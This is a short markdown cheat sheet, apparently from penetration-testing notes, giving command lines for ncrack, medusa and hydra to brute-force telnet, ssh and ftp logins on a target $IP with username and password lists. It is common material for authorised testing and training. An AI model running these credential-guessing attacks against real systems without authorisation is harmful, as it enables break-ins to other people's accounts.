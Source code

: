 ## Authentication Bruteforcing

** ncrack **
```bash
ncrack -U usernames.txt -P passwords.txt $IP -p telnet
ncrack -U usernames.txt -P passwords.txt $IP -p ssh
ncrack -U usernames.txt -P passwords.txt $IP -p ftp
```

** medusa **
```bash
medusa -h $IP -M telnet -U usernames.txt -P passwords.txt
medusa -h $IP -M ssh -U usernames.txt -P passwords.txt
medusa -h $IP -M ftp -U usernames.txt -P passwords.txt
```

** hydra **
```bash
hydra -L usernames.txt -P passwords.txt telnet://$IP
hydra -L usernames.txt -P passwords.txt ssh://$IP
hydra -L usernames.txt -P passwords.txt ftp://$IP
```
